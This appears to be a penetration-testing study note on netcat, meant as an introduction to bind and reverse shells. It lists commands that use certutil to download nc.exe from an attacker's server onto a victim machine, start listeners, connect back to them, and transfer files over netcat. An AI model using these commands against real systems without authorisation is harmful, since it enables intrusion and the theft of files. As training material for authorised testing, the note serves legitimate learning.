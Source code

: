 ```yaml
---
description: Bind and Reverse Shells
---
```


# 5 - Shells

## <mark style="color:red;">Netcat Fundamentals</mark>

* Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
* Netcat is available for both \*NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements.
* Netcat utilizes a client-server communication architecture with two modes:
  * **Client mode** - Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server).
  * **Server mode** - Netcat can be used to listen for connections from clients on a specific port.
* Netcat can be used by penetration testers to perform the following functionality:
  * Banner Grabbing
  * Port Scanning
  * Transferring Files
  * Bind/Reverse Shells

### **Practical Demonstration**

```bash
nc -h # help menu.
nc -nv <targetIP> <targetPort> #Connect to a port with NoDNS and Verbose flags
nc <...> -u #Connect via a UDP port (TCP default)
/usr/share/windows-binaries/nc.exe #Location of the nc windows binary

#Transfer the nc.exe windows binary from attacker to victim system:
#Setup a webserver (python) in the nc binary folder on the attacker side
cmd > certutil -urlcache -f http://<localIP>/nc.exe <binaryName> #Download the nc.exe binary from thea attacker system

nc -nvlp <port> #Listen for any connection on port 1234
cmd > nc.exe -nv <localIP> <port> #Connect to the nc listener

#How to transfer files using netcat
#The file receiver need to be listening (server) and the file sender needs to connect (client)
cmd > nc.exe -nvlp <port> > <fileName> #Redirect everything received from a netcat client to a file
nc -nv <targetIP> <port> < <fileName> #Send the file to the netcat listener
```













